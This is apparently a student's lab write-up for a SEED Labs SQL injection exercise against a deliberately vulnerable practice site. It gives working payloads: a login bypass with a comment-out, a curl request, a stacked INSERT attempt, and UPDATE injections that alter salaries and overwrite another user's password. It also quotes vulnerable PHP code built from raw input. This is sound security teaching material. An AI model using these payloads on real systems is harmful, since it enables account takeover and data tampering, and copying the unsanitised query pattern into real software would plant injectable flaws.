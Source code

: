 # DVWA Assign
# Task 1:
	Log in MYSQL:
//code
		mysql -u root -pseedubuntu
		mysql> use Users;
		mysql> show tables;
	Use such a SQL query:
//code
		select * from credential where Name='Alice';
(IMG Attach)

Task 2:
--> Task 2.1
	.USERNAME: "Admin' #"
	.PASSWORD: "xyz" (here is password is optional)

	We will result in SQL Query
//code
		SELECT id, name, eid, salary, birth, ssn, address, email, nickname, password
		FROM credential
		WHERE name='Admin' #' && password='xyz'
--> Task 2.2
	1- Write Code on Terminator in Seed Lab:
	curl 'http://www.seedlabsqlinjection.com/unsafe_home.php?username=Admin%27%20%23';
	2- Copy the HTML code.
	3- Make a new file in location "file:///home/seed/Documents/temp.html"
	4. Run this location on browser
(IMG attach)

--> Task 2.3	
	inject statment to append a row to current database:
//code	
	INSERT INTO credential (name,eid) VALUES('Waleed', '17422');
	After row inserted, go to browser and input as:
	.USERNAME: "1=1; INSERT INTO credential (name,eid) VALUES('Waleed','17422') #"
	.PASSWORD: "" (blank field)
(IMG attach)
(optional lines)
	PHP's mysqli extension, involes mysqli::query API to handle SQL statement,
doesn't support for multiple queries with in the same run. Of course, the design of this API 
attributes to concern of SQL injection.

Task 3
EDIT profile can be run on line "http://www.seedlabsqlinjection.com/unsafe_edit_frontend.php" to browser

--> Task 3.1
	1- Login as Username= 'Alice' && Password = xyz, 
	2- Then edit the link to browser http://www.seedlabsqlinjection.com/unsafe_edit_frontend.php
	3- Update Phone Number as ', Salary=1000000 and save.
--> Task 3.2
	1- Login as Username= 'Boby' #' and then open edit profile
	2- Update Phone Number: ',Salary=0 and remaining unchanges
(Img Attach)
	Login as Alice
		Assume login as Boby and keep Alice login too. Open Alice profile edit
	Update Phone Number: ', Salary=1 where name='Boby' #
--> Task 3.3
	We're login as Boby but change password of Alice
//backend code
	$conn = getDB();
	// Don't do this, this is not safe against SQL injection attack
	$sql="";
	if($input_pwd!=''){
	// In case password field is not empty.
	$hashed_ = sha1($input_pwd);
	//Update the password stored in the session.
	$_SESSION['pwd']=$hashed_pwd;
	$sql = "UPDATE credential SET nickname='$input_nickname',email='$input_email',address='$input_address',Password='$hashed_pwd',PhoneNumber='$input_phonenumber' where ID=$id;";
	}else{
	// if passowrd field is empty.
	$sql = "UPDATE credential SET nickname='$input_nickname',email='$input_email',address='$input_address',PhoneNumber='$input_phonenumber' where ID=$id;";
	}
	$conn->query($sql);
	$conn->close();
	header("Location: unsafe_home.php");
	exit();

Updation will be on Phone Number field;
Let Boby password as '123'. We must get SHA1 value of new password via some tool as:
	c0b656d5e415ca1a8e098a408f913ec229e120b6
Constuct Phone Number:
	', password='c0b656d5e415ca1a8e098a408f913ec229e120b6' where name='Boby' #
Save it and changes works accordingly. 
(IMG attach)
